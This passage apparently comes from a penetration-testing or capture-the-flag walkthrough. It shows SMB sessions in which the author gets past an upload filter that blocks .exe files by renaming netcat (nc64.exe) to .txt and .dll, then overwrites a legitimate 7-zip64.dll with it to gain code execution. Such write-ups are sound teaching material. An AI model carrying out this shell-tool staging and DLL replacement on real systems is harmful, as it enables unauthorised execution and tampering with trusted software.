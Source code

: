 ```

smb: \> put nc64.exe AutoIt3_x64.exe
NT_STATUS_ACCESS_DENIED opening remote file \AutoIt3_x64.exe
smb: \> put nc64.exe Bginfo64.exe
NT_STATUS_ACCESS_DENIED opening remote file \Bginfo64.exe

```

In fact, just trying to write `nc64.exe` to the share fails, but writing the same file as `nc64.txt` works:

```

smb: \> put nc64.exe 
NT_STATUS_ACCESS_DENIED opening remote file \nc64.exe
smb: \> put nc64.exe nc64.txt
putting file nc64.exe as \nc64.txt (40.1 kb/s) (average 40.1 kb/s)
smb: \> ls
  .                                   D        0  Wed Nov  9 22:57:42 2022
  ..                                DHS        0  Tue Apr 19 12:45:15 2022
  AutoIt3_x64.exe                     A  1013928  Thu Mar 15 13:17:44 2018
  Bginfo64.exe                        A  4601208  Thu Sep 19 20:15:38 2019
  nc64.txt                            A    45272  Wed Nov  9 22:57:42 2022
  scripts                             D        0  Mon Mar 21 21:22:59 2022

                10328063 blocks of size 4096. 2255724 blocks available

```

Clearly it’s blocking uploading of files that have the `exe` extension.

### Execution via DLL Overwrite

#### Show Possible

Interestingly, it isn’t blocking the upload of DLLs:

```

smb: \> put nc64.exe nc64.dll
putting file nc64.exe as \nc64.dll (87.9 kb/s) (average 55.1 kb/s)

```

I can even overwrite `7-zip64.dll`:

```

smb: \scripts\> ls 7-zip64.dll
  7-zip64.dll                         A  1076736  Mon Mar 21 13:43:58 2022
smb: \scripts\> put nc64.exe 7-zip64.dll
putting file nc64.exe as \scripts\7-zip64.dll (87.2 kb/s) (average 62.8 kb/s)
smb: \scripts\> ls 7-zip64.dll 
  7-zip64.dll                         A    45272  Wed Nov  9 23:02:34 2022

```
